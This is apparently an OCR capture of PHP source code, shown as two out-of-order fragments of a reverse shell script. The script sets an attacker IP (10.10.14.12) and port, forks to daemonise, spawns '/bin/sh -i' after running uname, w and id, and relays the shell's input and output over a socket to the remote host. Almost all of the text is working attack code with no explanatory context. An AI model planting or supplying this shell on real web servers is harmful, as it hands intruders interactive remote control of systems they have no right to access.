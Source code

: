 ```php
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> <?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.12';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
```